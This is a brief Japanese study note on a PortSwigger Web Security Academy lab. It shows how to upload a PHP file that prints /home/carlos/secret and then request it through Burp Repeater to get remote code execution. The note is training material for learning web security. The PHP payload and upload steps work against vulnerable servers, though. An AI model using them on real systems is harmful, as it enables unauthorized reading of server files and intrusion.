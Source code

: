 
Date: 2025-09-24
Tags: 
Links: [[WSA]], [[File Upload Vulnerabilities]]

***

1. どんなファイルもアップロードできる。
2. 
```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
をアップロード。
3. http Historyのfilterでimageだけに絞る。アバター画像をgetするリクエストを見つける。
4. repeaterで書き換える。`GET /files/avatars/exploit.php HTTP/1.1`
5. phpが実行され、ファイルの中身が返ってくる。

***
# References

https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload